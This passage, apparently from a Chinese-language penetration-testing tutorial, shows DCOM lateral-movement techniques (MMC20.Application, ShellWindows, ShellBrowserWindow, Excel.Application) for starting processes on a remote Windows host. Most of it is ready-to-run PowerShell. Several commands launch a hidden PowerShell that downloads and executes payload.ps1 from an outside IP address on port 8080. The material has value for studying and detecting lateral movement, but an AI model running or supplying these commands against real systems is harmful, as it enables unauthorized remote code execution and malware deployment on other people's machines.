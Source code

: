 2、然后执行如下命令，我们就可以调用"ExecuteShellCommand"方法在远程主机上启动进程

```
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$nu1l,"/c calc.exe","Minimzed")
```

3、将IP和命令换成上线的命令

```
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.70.16")).Document.ActiveView.ExecuteShellCommand('cmd.exe' ,$null,"/c powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))" ,"Minimzed")
```

### ShellWindows远程执行命令

```
[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39', "127.0.0.1")).item().Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:windowssystem32",$nu11,0)   #打开 本地计算器
```

```
[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39', "192.168.70.16")).item().Document.Application.ShellExecute("cmd.exe","/c powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))","c:windowssystem32",$null,0)
```

### ShellBrowserWindow远程执行命令

适用于Windows 10和Windows Server 2012 R2等版本的系统。

```
[activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "192.168.70.16")).Document.Application.shellExecute("cmd.exe", "/c powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))","c:windowssystem32",$nu1l,0)
```

### 调用Excel.Application远程执行命令

**目标主机中安装有excle**

**1、通过PowerShell与DCOM进行远程交互， 创建Excel.Application对象的实例**

```
$com = [activator]::CreateInstance([type]::GetTypeFromprogID(”Excel.Application","192.168.70.16"))
$com.DisplayAlerts = $false

$com = [activator]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","127.0.0.1"))
```

**2、然后执行如下命令，我们就可以调用该对象的"DDEInitiate'方法在远程主机上启动进程**

```
$com.DDEInitiate("cmd.exe","/c 参数")
```

